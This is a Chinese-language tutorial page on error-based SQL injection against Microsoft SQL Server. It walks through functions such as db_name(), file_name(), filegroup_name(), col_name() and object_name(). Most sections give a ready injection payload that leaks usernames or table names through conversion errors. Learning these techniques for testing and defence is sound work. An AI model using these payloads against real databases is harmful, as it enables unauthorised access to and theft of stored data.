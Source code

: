**查值**

```sql
select * from users where id = '1' and 1 = convert(int,(select top 1 username from users))--+
```
![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_31_X4cfCnAd.png)



### db_name()
此函数返回指定数据库的名称
```sql
DB_NAME ( [ database_id ] )
名称DB_NAME将返回的数据库的标识号 (ID) 。如果调用DB_NAME省略database_id，则DB_NAME返回当前数据库的名称。
返回nvarchar(128)
```
```sql
select * from users where id = '1' and 1 = db_name((select top 1 name from test..sysobjects where xtype = 'u' and name not in ('users')))--+
```
![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_31_UaVq7YEv.png)

### file_name()
此函数返回给定文件标识 (ID) 号的逻辑文件名。
```sql
file_name(id)
其文件名的文件标识号FILE_NAME。file_id具有int数据类型。返回nvarchar(128)
file_ID对应于 sys.master_files 目录视图或 sys.database_files 目录视图中的 file_id 列。
```
```sql
select * from users where id = '1' and 1 = file_name((select top 1 name from test..sysobjects where xtype = 'u' and name not in ('users')))--+
```
### filegroup_name()
```sql
select * from users where id = '1' and 1 = filegroup_name((select top 1 name from test..sysobjects where xtype = 'u' and name not in ('users')))--+
```
![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_31_ouad7kDw.png)



### col_name()
此函数根据表列的表标识号和列标识号值返回表列的名称。
```sql
COL_NAME ( table_id , column_id ) 
table_id 自变量具有一个 int 数据类型,column_id 自变量具有一个 int 数据类型,返回系统名称
```
![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_32_Q0iflpcX.png)



### object_name() 
返回架构范围内对象的数据库对象名称。 
```sql
OBJECT_NAME ( object_id [, database_id ] )  
object_id 的数据类型为 int，并假定为指定数据库或当前数据库上下文中的架构范围内的对象
database_id 的数据类型为 int。要在其中查找对象的数据库的 ID
返回sysname
```
![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_32_8yaqFKgM.png)

